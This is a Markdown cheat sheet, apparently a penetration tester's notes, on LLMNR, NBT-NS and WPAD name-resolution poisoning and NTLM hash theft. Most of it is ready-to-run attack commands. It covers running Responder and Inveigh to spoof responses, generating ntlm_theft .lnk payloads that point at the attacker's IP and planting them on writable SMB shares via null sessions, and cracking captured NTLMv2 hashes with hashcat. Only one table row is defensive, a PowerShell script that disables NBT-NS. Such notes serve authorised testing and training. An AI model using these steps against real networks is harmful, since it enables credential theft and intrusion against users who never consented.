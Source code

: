 ## LLMNR (Link-Local Multicast Name Resolution)

## NBT-NS (NetBIOS Name Server)

## WPAD (Web Proxy Auto-Discovery)

### Tools: Responder, Hashcat, ntlm_theft.py, Invoke-Inveigh, Inveighzero https://github.com/Kevin-Robertson/Inveigh

### Github repo: https://github.com/Greenwolf/ntlm_theft

## Steps:

#### 1) sudo responder -I YOUR_INTERFACE

#### 2) Leave it for a bit (average 10 minutes)

#### 3) Offline cracking with hashcat ( hashcat -m 5600 HASHFILE PASSWORDFILE --force )

## NTLM Hash stealing:

#### 1) Connect to SMB ( If you have no credentials, connect via NULL session if it is allowed) smbclient -N \\\\IP_ADDRESS\\

#### 2) Check if you have write access on the share you are connected to.

#### 3) python3 ntlm_theft.py -g all -s OUR_IP -f FOLDER_NAME (Create the malicious payload)

#### 4) sudo responder -I INTERFACE

#### 5) Upload an .lnk file to the writeable share

#### 6) After a few minutes you should have captured the hash of the user that tried to interact with our file

#### 7) Crack with hashcat

### .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6

#### More information:

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `responder -h`                                               | Used to display the usage instructions and various options available in `Responder` from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1`                                | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`. |
| `(Get-Command Invoke-Inveigh).Parameters`                    | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe`                                              | Starts the `C#` implementation of `Inveigh` from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.  |


